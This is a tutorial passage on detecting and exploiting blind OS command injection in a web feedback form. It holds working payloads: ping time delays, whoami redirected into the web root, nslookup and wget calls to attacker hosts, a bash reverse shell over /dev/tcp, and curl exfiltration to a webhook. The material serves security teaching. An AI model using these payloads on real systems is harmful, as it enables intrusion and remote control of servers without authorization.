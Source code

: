 As an example, imagine a website that lets users submit feedback about the site. The user enters their email address and feedback message. The server-side application then generates an email to a site administrator containing the feedback. To do this, it calls out to the `mail` program with the submitted details:
`mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`

The output from the `mail` command (if any) is not returned in the application's responses, so using the `echo` payload won't work. In this situation, you can use a variety of other techniques to detect and exploit a vulnerability.
### Detecting Blind OS Command Injection (Time Delays)
You can use an injected command to trigger a time delay, enabling you to confirm that the command was executed based on the time that the application takes to respond.

The `ping` command is a good way to do this, because lets you specify the number of ICMP packets to send. This enables you to control the time taken for the command to run:
`& ping -c 10 127.0.0.1 &`

This command causes the application to ping its loopback network adapter for 10 seconds.
### Exploiting Blind OS Command Injection
#### Output Redirection
You can redirect the output from the injected command into a file within the web root that you can then retrieve using the browser.

For example, if the application serves static resources from the filesystem location `/var/www/static`, then you can submit the following input:

`& whoami > /var/www/static/whoami.txt &`

The `>` character sends the output from the `whoami` command to the specified file. You can then use the browser to fetch `https://vulnerable-website.com/whoami.txt` to retrieve the file, and view the output from the injected command.
#### Out-of-band Techniques
You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques. For example:

`& nslookup kgji2ohoyw.web-attacker.com &`
- This payload uses the `nslookup` command to cause a DNS lookup for the specified domain. The attacker can monitor to see if the lookup happens, to confirm if the command was successfully injected.

Your request could look something like this:
`ProductID=1||wget http://www.webhook.site/your-site||`

If you confirm this is vulnerable, you can connect to reverse shells, or execute commands and send them back to your website:

Reverse Shell:
`ProductID=1||bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'||

Sending Commands:
``ProductID=1||curl http://`whoami`.webhook.site/your-id||``
## Ways of injecting OS commands
You can use a number of shell metacharacters to perform OS command injection attacks.
